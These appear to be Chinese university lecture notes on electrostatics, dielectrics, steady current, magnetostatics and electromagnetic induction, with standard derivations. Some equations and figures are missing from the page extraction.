设平行板电容器的电容为 \(C\)，电势差为 \(V\)，那么它具有的能量为 $$ U = \int_0^Q V dq = \int_0^Q \dfrac{q}{C} dq = \dfrac{Q^2}{2C} = \dfrac{1}{2} CV^2 $$ 电容器的能量储存在它的电场当中。
-
并且，我们知道平行板电容器产生的电场是均匀的，有 \(V = Ed\)，$C = \dfrac{A \epsilon_0}{d} $，因此 $$ U = \dfrac{1}{2} E^2 \epsilon_0 Ad $$
-
此外，我们还可以得到单位体积内的静电场能量密度（注意到体积 \(V = Ad\)） $$ u = \dfrac{1}{2} E^2 \epsilon_0 $$
Tip
虽然上面的这几个公式我们是由平行板电容器推导出来的，但实际上电容器的能量公式以及能量密度公式对于任何电容器都是成立的。
电介质(Dielectrics)¶
将绝缘体插入电容器的平面之间时，电容器的电容大小会发生变化，这个插入电场中的绝缘体就称为电介质。
介电常数 \(\kappa_e\) 是电介质的一个特性参数，它表示填充电介质后电容器的电容与真空中的电容之比，具体来说 $$ C = \kappa_e C_0 $$
- 介电常数 \(\kappa_e\) 始终大于1
- 电介质的插入使得电容器能够储存更多的能量
我们也可以得到插入电介质后其他物理量的变化
- 当电荷总量 \(Q\) 不变时
- 当电势差 \(V\) 不变时
宏观理解¶
- 若在平行板电容器间插入一个导体，导体的上下表面都会产生感应电荷，相当于将一个电容器变成了两个电容器的串联

$$ C_1 = \epsilon_0 \dfrac{A}{d_1} $$ $$ C_2 = \epsilon_0 \dfrac{A}{d_2} $$ $$ C = \dfrac{C_1 C_2}{C_1 + C_2} = \epsilon_0 \dfrac{A}{d_1 + d_2} > \epsilon_0 \dfrac{A}{d} $$ 因为显然 \(d_1 + d_2 < d\)
- 若在平行板电容器间插入一个电介质，电介质与电容器之间几乎没有缝隙。此时电介质的表面会产生束缚电荷，由于电介质内部会产生感应电场，将原电场的一部分抵消从而使电势差减小，在带电量不变的情况下，由 \(C = \dfrac{Q}{V}\) 可知电容增大。此时我们就称这个电介质被极化（Polarization）了。

从以上两种情况可以看出，无论插入导体还是电介质都可以使电容增大.但插入导体后将会使得两个小电容器的 \(d\) 变得很小，这样就容易导致电容器被击穿，因此通常采取插入电介质的方法来提高电容。
Tip
虽然导体和电介质在外部电场中产生的电荷在英文中都称为“induced charge”，但在中文中我们通常将导体上的电荷称为感应电荷，而电介质上的电荷称为束缚电荷，这样我们就可以区分开它们。
极化的微观解释¶
无极分子电介质与有极分子电介质
-
Non-polar dielectrics (无极分子电介质)
指的是分子的正负电荷中心重合，如氮气、氧气二氧化碳等。
-
Polar dielectrics (有极分子电介质)
指的是分子的正负电荷中心不重合，如水、氯化氢等。
-
对于无极分子电介质，当一个外界电场作用于其上时，它的正负电荷中心会产生位移，不再重合，从而形成感生电偶极矩（Induced electric dipole moment），进而产生一个与外界电场方向相反的电场，这就是电子位移极化（Electric displacement polarization）。
- 当电介质内部的正负电荷矢量求和之后，最终只有两侧的电荷没有被抵消掉，相当于在电介质的表面分别产生了正负电荷。

-
对于有极分子电介质，当一个外界电场作用于其上时，其内部原本杂乱无章的电荷（电偶极矩）会受力发生偏转，产生的力矩会使电偶极矩偏向于电场的方向，称其为取向极化（Alignment polarization）。
- 当发生取向极化时，实际上也会发生电子位移极化，但后者的效果会比前者低两个数量级，因此通常可以忽略；但在高频电场中时，电子位移极化会占据更主要的位置。

极化强度矢量¶
极化强度矢量 \(\overrightarrow{P}\) (Polarization)
极化强度矢量 \(\overrightarrow{P}\) 定义为单位体积内的电偶极矩之和，即 $$ \overrightarrow{P} = \dfrac{\sum \overrightarrow{p}}{\Delta V} $$
通常来说，极化强度矢量是一个空间的函数 \(\overrightarrow{P}(x, y, z)\)，它可能是均匀的，也可能是非均匀的。


对于均匀的电介质，束缚电荷仅分布在电介质的表面。
对于不均匀的电介质，不妨设其为一个球体，考虑一个外部电场 \(\overrightarrow{E}_0\)，直觉告诉我们正电荷将更多地聚集在球体的右侧，负电荷反之。但要求出具体的极化强度矢量就需要一些技巧。
不妨在球体右表面取一个很小的圆柱体
- 或许可能会带来误导，但实际上图中圆柱的底面和顶面与其母线垂直
- 圆柱体的轴线方向 \(\overrightarrow{n}\) 与球体的半径方向相同
- \(\overrightarrow{l}\) 表示电偶极矩的长度矢量，与外部电场方向相同，与 \(\overrightarrow{n}\) 有一定夹角，
- 下面的 \(n\) 表示单位体积中分子的数量 $$ dN = ndV = nld A \cos \theta $$

这里的 \(\sigma'\) 表示因外部电场而产生的束缚电荷的面密度
由上式就可以推断出面电荷的符号与外部电场之间的关系
-
\(\theta < \dfrac{\pi}{2}\)，\(\sigma_e' > 0\)，+
-
\(\theta > \dfrac{\pi}{2}\)，\(\sigma_e' < 0\)，-
退极化场¶
上面提到过，束缚电荷会在电介质内部产生一个与外界电场方向相反的电场 \(\overrightarrow{E}'\)，称其为退极化场(Depolarization Field) $$ \overrightarrow{E} = \overrightarrow{E}_0 + \overrightarrow{E}' $$
Example
考虑一个球形电介质，带有均匀的极化强度矢量 \(\overrightarrow{P}\)，计算球心的退极化场 \(\overrightarrow{E}'\)

从而可以得到 $$ dE' = \dfrac{P}{4\pi \epsilon_0} \cos \theta \sin \theta d\theta d\phi $$

电介质的极化规律¶
-
对于各向同性（general isotropic）的材料 $$ \overrightarrow{P} = \chi_e \epsilon_0 \overrightarrow{E} $$
- 其中 \(\chi_e\) 称为极化率（Polarization coefficient）
- \(\kappa_e = 1 + \chi_e\)
-
对于不各向同性（anisotropic）的材料(\(SiO_2\)晶体水晶等)
电位移矢量¶
现在我们引入一个新的物理量，电位移矢量 \(\overrightarrow{D}\)，它定义为 $$ \overrightarrow{D} = \epsilon_0 \overrightarrow{E} + \overrightarrow{P}$$

由高斯定理，此时高斯面包围的电荷包括点电荷和束缚电荷，因此有 $$ \epsilon_0 \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = \sum_{In}(q_0 + q') $$
又根据极化强度矢量的定义和前面推导出的式子，我们有 $$ \oiint \overrightarrow{P} \cdot d\overrightarrow{A} = -\sum_{In} q' $$
于是 $$ \oiint (\epsilon_0 \overrightarrow{E} + \overrightarrow{P}) \cdot d\overrightarrow{A} = \sum_{In} q_0 $$
因此最终得到 $$ \overrightarrow{D} \cdot d\overrightarrow{A} = \sum_{In} q_0 $$ 这就是电介质中的高斯定理
Tip
当我们直接对电介质使用普通的高斯定律 $ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = \dfrac{q_{in}}{\epsilon_0} $ 时，我们会发现这时候已经将电介质中的束缚电荷考虑进去了
假如我们希望求出电介质中的自由电荷，我们就需要使用电介质中的高斯定律 $ \oiint \overrightarrow{D} \cdot d\overrightarrow{A} = q_{free} $
这就是为什么我们需要引入电位移矢量 \(\overrightarrow{D}\) 的原因。
Note
利用电位移矢量 \(\overrightarrow{D}\) 我们可以得到如下推导：
因此 $$ \kappa_e = 1 + \chi_e $$
- \(\kappa_e\) Dielectric constant（介电常数）
- \(\chi_e\) Polarization coefficient（极化率）
稳恒电流¶
电流强度与电流密度¶
电流强度 \(i\) 定义为单位时间内通过某个截面的电荷量，即 $$ i = \lim_{\Delta t \to 0} \dfrac{\Delta q}{\Delta t} = \dfrac{dq}{dt} $$
&& \(\overrightarrow{j}\) 定义为单位时间内通过单位面积的电荷量
电流连续性方程¶
在电流场中，电荷不会消失，因此电流在空间中的分布是连续的，即电流的流入量等于流出量。 $$ \oiint_A \overrightarrow{j} \cdot d\overrightarrow{A} = -\dfrac{dq}{dt} = 0 $$
欧姆定律、电阻、电阻率¶
- 欧姆定律：电流强度与电压成正比，与电阻成反比
- \(\Delta V = iR\)，\(i = \dfrac{\Delta V}{R}\)，\(R = \dfrac{\Delta V}{i}\)
- 电导：电阻的倒数，单位为 \(\Omega^{-1}\)，记为 \(G = \dfrac{1}{R}\)
- 单位：电阻：欧姆(\(\Omega\))，电导：西门子(\(\Omega^{-1} = S\))
$$ R = \rho \dfrac{L}{A} = \int \rho \dfrac{dl}{A} $$ 其中 \(\rho\) 为电阻率（resistivity），\(L\) 为电阻的长度，\(A\) 为电阻的横截面积
电导率：$ \sigma = \dfrac{1}{\rho} $
欧姆定律的微分和积分形式¶

微分形式：
$$ \Delta i = \dfrac{\Delta V}{R} $$
$$ j\Delta A = \dfrac{E \Delta l}{\rho \dfrac{\Delta l}{\Delta A}} = \dfrac{E \Delta A}{\rho} $$
$$ j = \dfrac{E}{\rho} = \sigma E $$
由上式可以得到 $ \overrightarrow{j} = \dfrac{E}{\rho} = \sigma \overrightarrow{E} $
微分形式的欧姆定律对于每一点都是成立的，更普适。
积分形式： $$ i = \iint \overrightarrow{j} \cdot d\overrightarrow{A} $$ $$ \Delta V = \iint \overrightarrow{E} \cdot d\overrightarrow{l} $$ $$ R = \int \rho \dfrac{dl}{A} $$
电功率和焦耳定律¶
电功率 \(P\) 的单位为瓦特（W），定义为单位时间内电场力做的功，
欧姆定律的微观解释¶

电流实际上就是定向移动的电荷
- 当外界电场为零时，到体内的电荷做无规则的热运动，电荷之间的运动相互抵消，因此电流为零。
- 当外界电场不为零时，电场会使电荷受力，电荷会在电场中做定向漂移运动，从而产生电流。
电荷在导体中运动时会与其他电荷发生碰撞或相互干涉，因此在这里有几个重要的概念值得强调：
- 平均自由程（mean free path）：\(\lambda\)，电荷在导体中每次相互碰撞之间移动的平均距离
- 平均自由时间（mean free time）：\(\tau\)，电荷在导体中每次相互碰撞之间移动的平均时间
- 平均热运动速度（mean thermal speed）：\(v_{t}\)
- 平均漂移速度（mean drift speed）：\(u\)
首先考虑牛顿定律
我们又有电流密度的定义，即单位时间内通过某个截面的电荷量，不妨设单位体积里有 \(n\) 个电子（电子密度）
此外，我们再定义一个 \(\sigma\) 那么我们最终就可以得到电流密度矢量的表达式
电动势¶
电动势（Electromotive Force，emf）\(\varepsilon\) 定义为将单位正电荷从负极通过电源内部移到正极，非静电力所做的功，即 $$ \varepsilon = \int_{-}^{+} \overrightarrow{K} d\overrightarrow{l} $$ 其中 \(\overrightarrow{K}\) 为非静电力
磁学¶
约 4314 个字 24 张图片 预计阅读时间 17 分钟
稳恒磁场¶
磁学基本现象¶
- 磁铁吸引铁、镍、钴等磁性物质
- 指北针指向地理北极（磁南极），指南针指向地理南极（磁北极），磁力线从磁北极指向磁南极
- 磁极同性相斥，异性相吸
-
奥斯特实验：电流通过导线时，导线周围会产生磁场；
电线切割磁感线时，电线会产生感应电动势，这就是电磁感应现象。
-
右手定则
- 同向电流之间相互吸引，反向电流之间相互排斥
- 磁场由运动的电荷产生
安培定律（Ampere's Law）¶
根据库仑定律，我们知道两个点电荷之间的相互作用力是由它们之间的电场产生的

那么我们可以类比求出磁场力，即两个电流元（current element）\(i_1ds_1\) 和 \(i_2ds_2\) 之间的相互作用力 $$ dF_{12} = k \dfrac{i_1 i_2 ds_1 \sin\theta_1 ds_2 \sin\theta_2}{r_{12}^2} $$ 其中 \(k\) 是一个比例系数
假如我们再将电流元本身的方向以及它们之间的位移矢量也考虑进来，就得到
- 其中 \(k = \dfrac{\mu_0}{4\pi} = 10^{-7} \text{N/A}^2\) 称为磁场常数（magnetic constant）
- \(\mu_0\) 称为真空磁导率或磁导率（permeability constant），\(\mu_0 = 4\pi \times 10^{-7} \text{N/A}^2\)
两道例题
 对于两个平行且同向的电流，电流元 \(i_1 ds_1\) 对 \(i_2 ds_2\) 的作用力为
对于两个平行且同向的电流，电流元 \(i_1 ds_1\) 对 \(i_2 ds_2\) 的作用力为
又因为 $ ds_1 \perp \hat{r}_{12} $，因此
类似地，电流元 \(i_2 ds_2\) 对 \(i_1 ds_1\) 的作用力为 $$ dF_{21} = \dfrac{\mu_0}{4\pi} \dfrac{i_1 i_2 ds_1 ds_2}{r_{21}^2} $$
因此我们得到 $ dF_{12} = dF_{21} $，即两个电流的相互作用力大小是相同的，事实上我们也可以发现两个同向的电流会相互吸引
 对于两段相互垂直的电流，
对于两段相互垂直的电流，
又因为 $ ds_1 \parallel \hat{r}_{12} $，因此
但是这里需要注意的是，$ ds_2 \perp \hat{r}_{21} $，因此
这里我们就得到一个反直觉的结论，$ dF_{12} \neq dF_{21} $，这是需要多加注意的
磁感应强度¶
在上面我们反复使用了下面的公式
这是对于电流元的作用力，而对于整个环流电路的作用力，我们可以将其积分，得到
因此我们可以对上式叉乘符号的右侧进行定义：
于是我们就得到 $$ d\overrightarrow{F}_2 = i_2 d\overrightarrow{s}_2 \times \overrightarrow{B}_1 $$

$ \overrightarrow{B}_1 $ 是由环路电流 \(i_1\) 在电流元 \(i_2 d\overrightarrow{s}_2\) 处产生的磁感应强度、
- 对于 \(\overrightarrow{B}_1\) 的大小，我们定义为 \(F_2\) 变化最快的方向中 \(F_2\) 与 \(i_2 ds_2\) 的比值
- \(\overrightarrow{B}_1\) 的方向由 \(i_1 ds_1\) 与 \(\hat{r}_{12}\) 的叉乘方向决定
环路电流的磁场¶
Biot-Savart Law (毕奥-萨阀尔定理)¶

这个定理描述的是一个直电流产生的磁场方向，实际上就是中学阶段我们已经学到了的右手定则（right hand rule）
长的直线电流¶

根据 $ d\overrightarrow{B} = \dfrac{\mu_0}{4\pi} \dfrac{i d\overrightarrow{s} \times \hat{r}}{r^2} $，我们知道 $ d\overrightarrow{B} = \dfrac{\mu_0}{4\pi} \dfrac{i dx \sin\theta}{r^2} $
这里我们关注的是直线电流旁点 \(P\) 处的磁场强度，直接进行积分 $$ B = \int_{A_1}^{A_2} dB = \dfrac{\mu_0 i}{4\pi} \int_{A_1}^{A_2} \dfrac{i \sin\theta dx}{r^2} $$ 其中 \(r = \dfrac{r_0}{\sin\theta}\) ， \(x = -r_0 \cot\theta\)， \(dx = \dfrac{r_0 d\theta}{\sin^2 \theta}\)
于是最终就有
对于无限长的带电线，有一定夹角
- \(\theta_1 = 0\) ， \(\cos\theta_1 = 1\)
- \(\theta_2 = \pi\) ， \(\cos\theta_2 = -1\)
于是 $$ B = \dfrac{\mu_0 i}{4\pi r_0} (\cos\theta_1 - \cos\theta_2) = \dfrac{\mu_0 i}{2\pi r_0} $$
当 $ r_0 << L $ 时，就可以使用上面的结论
环流电路的磁场¶

考虑在环流电路中轴线上的一点 \(A\)，显然，我们有 $ \left| d\overrightarrow{B} \right| = \left| d\overrightarrow{B}' \right| $
并且根据 $ d\overrightarrow{B} = \dfrac{\mu_0}{4\pi} \dfrac{i d\overrightarrow{s} \times \hat{r}}{r^2} $ ， $ dB = \dfrac{\mu_0}{4\pi} \dfrac{i ds}{r^2} \sin\theta $ 和 $ dB_x = dB \cdot \cos\alpha $，其中 \(\alpha\) 是直径与电流元到点 \(A\) 连线的夹角。
又因为此时电流元方向始终和电流元与点 \(A\) 的连线方向垂直，因此 \(\theta = \dfrac{\pi}{2}\)，同时我们还有 \(r = r_0 / \sin\alpha\)，于是
最后我们把带有 \(\alpha\) 的项消掉
$\sin \alpha = \dfrac{r_0}{\sqrt{r_0^2 + R^2}} $ ， $ \cos\alpha = \dfrac{R}{\sqrt{r_0^2 + R^2}}$
就得到 $$ B = \dfrac{\mu_0}{2} \dfrac{iR^2}{(R^2 + r_0^2)^{3/2}} $$
Tip
实际上分母就是电流元与点 \(A\) 的距离的三次方，在记忆时不必死记硬背
- 在环流电路的中心时，\(r_0 = 0\)，\(B = \dfrac{\mu_0 i}{2R}\)
- 当 \(r_0 >> R\) 时，\(B = \dfrac{\mu_0 i R^2}{2r_0^3}\)
- 同样的，环流电路产生的磁感应强度方向由右手定则决定
磁偶极矩
对环流电路产生的的磁感应强度可以做一些形式上的变换 $$ B = \dfrac{\mu_0 i R^2}{2r_0^3} = \dfrac{\mu_0 i \pi R^2}{2\pi r_0^3} = \dfrac{\mu_0 i A}{2\pi r_0^3} $$
于是我们就可以定义磁偶极矩为电流大小与环流电路包裹住的圆形截面面积的乘积： $$ \mu = iA = i\pi R^2 $$ $$ B = \dfrac{\mu_0 i R^2}{2r_0^3} = \dfrac{\mu_0}{2\pi} \dfrac{\mu}{r_0^3} $$

对于多匝的线圈，磁偶极矩可以定义为 $$ \mu = iA = Ni\pi R^2 $$ 事实上，有 $$ \overrightarrow{\mu} = i\overrightarrow{A} $$
螺线管（solenoid）的磁场¶

在实际实验中，我们通常使用螺线管来产生恒定不变的磁场。
一根螺线管是一条在半径为 \(R\)，长度为 \(L\) 的圆柱体上缠绕的电线，其中每单位长度绕 \(n\) 匝，通过的电流大小为 \(i\).
当 \(R<<L\) 时，螺线管内部的磁场就可以认为是大小恒定不变的，且方向沿着圆柱的轴线方向。我们可以使用安培定律来求出这个磁场的大小。

如上图所示，螺线管长度为 \(L\)，半径为 \(R\)，每单位长度绕 \(n\) 匝线圈，点 \(P\) 与螺线管中心的距离为 \(x\)。
首先我们由环流电路的磁场公式，得到
同时我们还有
$ r = \sqrt{R^2 + (x-l)^2} = \dfrac{R}{\sin\beta} $
$ \dfrac{x-l}{R} = \cot\beta \Rightarrow dl = \dfrac{R}{\sin^2\beta} d \beta $
于是代入进去我们就得到
最后还有
$\cos\beta_1 = \dfrac{x+L/2}{\sqrt{R^2 + (x+L/2)^2}} $ ， $\cos\beta_2 = \dfrac{x-L/2}{\sqrt{R^2 + (x-L/2)^2}} $
-
当螺线管是无限长（\(L \to \infty\)）时，在螺线管的内部，有 \(\beta_1 = 0, \beta_2 = \pi\)
$ B = \dfrac{1}{2} \mu_0 ni(1+1) = \mu_0 ni $
-
在螺线管的端头时，有 \(\beta_1 = 0, \beta_2 = \dfrac{\pi}{2}\)
$ B = \dfrac{1}{2} \mu_0 ni(1-0) = \dfrac{1}{2} \mu_0 ni $
磁场的高斯定理和安培环路定理¶
回顾静电场的高斯定理和安培环路定理：
- 高斯定理：$ \oiint \overrightarrow{E} \cdot d\overrightarrow{A} = \dfrac{1}{\epsilon_0} \sum q$ ， $ \nabla \cdot \overrightarrow{E} = \dfrac{\rho_e}{\epsilon_0} $
- 环路定理：$ \oint \overrightarrow{E} \cdot d\overrightarrow{l} = 0$ ， $ \nabla \times \overrightarrow{E} = 0$
由电流产生的磁场与静电场有一些共同的特征，但磁场 \(B\) 的这些特征与静电场的有所不同。
类似于电通量，我们也有磁通量的概念：通过一个面的磁感线的数量，即磁感应强度 \(B\) 与有向面积 \(A\) 的乘积。 $$ \Phi_B = \iint \overrightarrow{B} \cdot d\overrightarrow{A} = \iint B \cos\theta dA $$
$$ \overrightarrow{B} = \lim_{\Delta A \to 0} \dfrac{\Delta \Phi_B}{\Delta A} $$ 其中 \(\Phi_B\) 的单位为 \(\text{T} \cdot \text{m}^2 = \text{Wb}\)（韦伯）。
于是最终得到磁场的高斯定理:
$ \oiint \overrightarrow{B} \cdot d\overrightarrow{A} = 0 $ ， $ \nabla \cdot \overrightarrow{B} = 0 $
证明磁场的高斯定理

对于电流元 \(id\overrightarrow{s}\) 产生的磁场，我们有 $$ d\overrightarrow{B} = \dfrac{\mu_0}{4\pi} \dfrac{i d\overrightarrow{s} \times \hat{r}}{r^2} $$
对于图中这一个红色的任意闭合曲面，我们可以考虑一个穿过这个曲面的小圆环（多个小圆环叠加起来就可以覆盖到整个闭合曲面）
显然，在这个圆环上，有 \(dA_1 = dA_2, \enspace |\cos\theta_1| = |\cos\theta_2|\)，因此这两个小面积的磁场大小相同，面积大小相同但方向相反 $$ d\Phi_1 = d\Phi_2 $$ $$ d\Phi_1 + d\Phi_2 = 0 $$ $$ \oiint \overrightarrow{B} \cdot d\overrightarrow{A} = 0 $$

这里，\(\sum_{inloop} i\) 是环路内的电流总和。对于环路内的电流，根据右手定则，电流方向与环路方向相同时，电流为正，否则为负。
如在右图中，\(i_1\) 为正，\(i_2\) 为负，因此 $$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = \mu_0(i_1 - i_2) $$
利用环路定理，我们就可以很方便地求出环路上的磁感应强度。
Note
环路内部具体某一点的磁感应强度实际上还会受到环路外部的电流的影响，但环路外部的电流不会对 \(\overrightarrow{B} \cdot d\overrightarrow{l}\) 积分后的最终结果产生影响，因为积分过后外部的电流的影响会被相互抵消。
例如在上面的例子中 \(i_3\) 对环路内部的磁场并没有影响。
Tip

在使用环路定理的时候，我们只考虑穿过环路内部的电流，而忽略掉其他所有的内容。对于电流的方向，我们以右手定则来判断“正负”。
例如在右图中 $$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = \mu_0 (i_1 + i_3 - 2i_2) $$
无限长直导线的磁场¶

考虑一个无限长直导线，半径为 \(R\)，大小为 \(i\)的电流均匀分布在导线内部，我们考虑距离导线的中心距离为 \(r\) 处的磁场。
无限长直导线的磁场
 首先我们选择一个半径为 \(r\) 的圆环作为回路，然后对这个回路运用安培环路定理
首先我们选择一个半径为 \(r\) 的圆环作为回路，然后对这个回路运用安培环路定理
- 为什么？因为这样能使得环路上的磁场高度对称，大小一致，且能保证磁场方向始终沿着环路的切线方向，从而极大程度地简化计算。
于是我们有 $$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = B \cdot 2\pi r = \mu_0 i $$ 于是 $$ B = \dfrac{\mu_0 i}{2\pi r} $$
 同理，我们还是选择一个半径为 \(r\) 的圆环作为回路，但是此时环路内的电流大小为
$$ i_{enclosed} = \dfrac{\pi r^2}{\pi R^2} i = \dfrac{r^2}{R^2} i $$
根据环流定律
$$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = B \cdot 2\pi r = \mu_0 i_{enclosed} = \mu_0 \dfrac{r^2}{R^2} i $$
于是
$$ B = \dfrac{\mu_0 r}{2\pi R^2} i $$
同理，我们还是选择一个半径为 \(r\) 的圆环作为回路，但是此时环路内的电流大小为
$$ i_{enclosed} = \dfrac{\pi r^2}{\pi R^2} i = \dfrac{r^2}{R^2} i $$
根据环流定律
$$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = B \cdot 2\pi r = \mu_0 i_{enclosed} = \mu_0 \dfrac{r^2}{R^2} i $$
于是
$$ B = \dfrac{\mu_0 r}{2\pi R^2} i $$
Tip
这说明无限长直导线的磁场在 \(r=R\) 处磁场达到最大

无穷电流面的磁场¶

考虑一个单位长度有 \(n\) 条导线组成的无限电流面，每条导线带有的电流大小为 \(i\)。
由对称性可知，在垂直于电流面方向（图中水平方向）上的磁场大小为零；而在平行于电流面方向（图中竖直方向）上的磁场大小相等，方向相反。
取一个边长为 \(w\) 的正方形回路，根据安培环路定理，我们有 $$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = Bw + 0 + Bw + 0 = 2Bw = \mu_0 nwi $$ 于是 $$ B = \dfrac{1}{2} \mu_0 ni$$
无穷螺线管的磁场¶

为何使用螺线管产生稳定的磁场？
前面我们提到过，产生稳定的电场时，我们可以使用平行板电容器；而产生稳定的磁场时，我们可以使用螺线管。
如果我们把螺线管沿着纵向切一刀，并从截面方向来看，就可以看到两个大小相等，方向相反的电流面，这与电容器的两个极板很类似：
- 在电流面的两侧，两个电流面产生的磁场方向相反，相互抵消，总磁场大小为零
- 在电流面的中间，两个电流面产生的磁场方向相同，相互叠加，总磁场大小为
或者我们也可以使用安培环路定理来求解 $$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = Bw = \mu_0 nwi $$ 于是 $$ B = \mu_0 ni $$
螺绕环的磁场¶

- 在螺绕环外，磁场大小为零
- 在螺绕环内，记螺绕环总的电流数量为 \(N\)，每个电流大小为 \(i\)
常见的几种模型的磁场大小
-
无限长直导线
- 导线外部：\(B = \dfrac{\mu_0 i}{2\pi r}\)
- 导线内部：\(B = \dfrac{\mu_0 r}{2\pi R^2} i\)
-
无限电流面：\(B = \dfrac{1}{2} \mu_0 ni\)
- 无限螺线管：\(B = \mu_0 ni\)
- 螺绕环：\(B = \mu_0 ni\)
- 圆环轴线上的磁场：\(B \propto \dfrac{\mu_0 i R^2}{2z^3}\)
电流在磁场中受到的力和力矩¶
Warning
判断受力的方向时要抛弃掉高中所学的所谓“左手定则”，而全部使用右手定则，即利用叉乘的性质来判断受力方向。安培力与洛伦兹力在本质上是一样的。
Example

\(F_1\) 和 \(F_3\) 的计算很简单，对于 \(F_2\)，根据对称性很容易发现它在水平方向上的力为零，只有竖直方向上的力 $$ F_2 = F_{\vert} = \int_0^{\pi} iBR d\theta \sin\theta = iBR \int_0^{\pi} \sin\theta d\theta = 2iBR $$
矩形线圈¶

对于一个矩形线圈，如果它绕着一个与磁场方向垂直的轴线旋转，那么它会受到一个力矩。
即 $$ \overrightarrow{tau} = iA(\overrightarrow{n} \times \overrightarrow{B}) = \overrightarrow{\mu} \times \overrightarrow{B} $$
任意形状线圈¶

我们可以把上面的结论推广到任意形状的线圈，我们可以把任意形状的线圈分解为一个个小矩形，对所有小矩形带有的电流进行累加，发现只有最外侧的电流不会相互抵消，最终得到的电流就是这个线圈的总电流。
先分析受力 $$ dF_1 = ids_1B\sin\theta_1 $$ $$ dF_2 = ids_2B\sin\theta_2 $$ $$ ds_1 \sin\theta_1 = ds_2 \sin\theta_2 = dh $$ $$ dF_1 = dF_2 = iBdh $$
再分析力矩 $$ d\tau = dF_1 \cdot x_1 + dF_2 \cdot x_2 = iB \cdot dh \cdot (x_1 + x_2) = iB \cdot dA $$ $$ \tau = \int dL = \int iBdA = iBA $$
Tip
磁偶极矩的方向可以通过右手定则来判断 $$ \overrightarrow{\mu} = i\overrightarrow{A} $$
线圈在磁场中收到的力矩使得它在磁场中旋转，具有使得磁偶极矩的方向转到与磁场方向相同的趋势。
Note
类似于电偶极矩的势能 $$ U = -\overrightarrow{\p} \cdot \overrightarrow{E} $$ 磁偶极矩也有相同形式的势能 $$ U = -\overrightarrow{\mu} \cdot \overrightarrow{B} $$
电荷在磁场中的运动¶
洛伦兹力
洛伦兹力不做功，洛伦兹力只改变速度方向，不改变速度大小
洛伦兹力的方向可用右手定则来判断
在匀强磁场中，带电粒子在垂直于磁场的平面上做圆周运动 $$ qvB = \dfrac{mv^2}{R} \rightarrow R = \dfrac{mv}{qB} $$ $$ T = \dfrac{2\pi R}{v} = \dfrac{2\pi m}{qB} $$ $$ f = \dfrac{1}{T} = \dfrac{qB}{2\pi m} $$
质谱仪（速度选择器）

在速度选择器后紧接着一个匀强磁场，就可以根据粒子运动半径的大小来判断粒子的质荷比
电动力学¶
约 6198 个字 37 张图片 预计阅读时间 25 分钟
法拉第电磁感应定律¶
可以定义通过一个开放曲面的磁通量为 $$ \Phi_B = \iint \overrightarrow{B} \cdot d\overrightarrow{A} $$
根据法拉第电磁感应定律，感生电动势由磁通量的变化率决定 $$ \varepsilon = -\dfrac{ \mathrm{d}\Phi_B }{ \mathrm{d}t } $$
感生电动势的方向
上式中的负号表示感生电动势的方向总是使得感生电流的磁场方向抵消原磁场的变化，即”阻碍“磁场的变化，具体的方向可由右手定则确定，这就是楞次定律。
楞次定律是能量守恒定律在电磁感应现象中的具体表现。
动生电动势和感生电动势¶
动生电动势¶

动生电动势实际上由洛伦兹力产生。
电子在磁场中运动时，其受到的洛伦兹力为 $$ \overrightarrow{f} = -e(\overrightarrow{v} \times \overrightarrow{B}) $$
这是一个非静电力，电子在这个力的驱动下沿着 \(\mathbf{DCBA}\) 方向运动，这样就产生了一个电动势。
Question
我们都说洛伦兹力并不做功，但为什么我们又说洛伦兹力产生了动生电动势？
因为实际上是外力克服了洛伦兹力的分量在做功，因此洛伦兹力有的分量做正功，有的分量做负功，总功为零。
发电机

感生电动势¶
磁场发生变化时，会在空间中产生一个涡旋电场，这个电场会使电荷在空间中运动，从而产生感生电动势。 $$ \varepsilon = \oint \overrightarrow{E} \cdot d\overrightarrow{l} $$
空间中的电场实际上包括静电场和磁场变化产生的感生电动势
我们可以对空间中的电场环路定理进行推广
电场环路定理的推广
感应电动势做的功相当于感生电场对电荷做的功，即 $$ \varepsilon q_0 = q_0 E_{ind} 2 \pi r $$
从而根据法拉第电磁感应定律
于是
又根据磁通量的定义，$ \Phi_B = \iint \overrightarrow{B} \cdot d\overrightarrow{A} $，所以 $$ \oint \overrightarrow{E} \cdot d\overrightarrow{l} = -\iint \dfrac{ \partial \overrightarrow{B} }{ \partial t } \cdot d\overrightarrow{A} $$
又根据 stokes 公式 $$ \oint \overrightarrow{E} \cdot d\overrightarrow{l} = \iint (\nabla \times \overrightarrow{E}) \cdot d\overrightarrow{A} $$
于是我们得到 $$ \nabla \times \overrightarrow{E} = -\dfrac{ \partial \overrightarrow{B} }{ \partial t } $$
Warning
由于在涡旋电场中，电场的环路积分不为零，所以感生电动势是非保守的，我们不能使用“电势”的概念。
Example

在磁场参考系中，线圈向右匀速运动，有 $$ \overrightarrow{V} = \overrightarrow{v} + \overrightarrow{v}_d, \enspace \overrightarrow{F}_B = \overrightarrow{N} + \overrightarrow{F}_i $$
从而我们可以求出感应电动势 $$ W_N = \int qBv \mathrm{d}l = qBvD $$
注意到实际上洛伦兹力有两个方向的分量，而 $$ \mathrm{d}W_i = -F_i \mathrm{d}l = -qvB \mathrm{d}l $$ $$ W_i = -qvBD = -W_N$$ 也就是说，洛伦兹力的两个分量做的功大小相等，符号相反，总功为零。这就是我们上面提到的洛伦兹力实际上并不做功。
在线圈参考系中，我们可以通过上面的结论得到一种求感生电动势的方法 $$ \varepsilon' = \int E' \mathrm{d} l = E' = BvD $$ $$ \overrightarrow{E}' = \overrightarrow{v} \times \overrightarrow{B} $$ 这里的 \(\varepsilon'\) 是感生电动势，而 \(\overrightarrow{E}'\) 是感生电场。
电感¶
互感¶
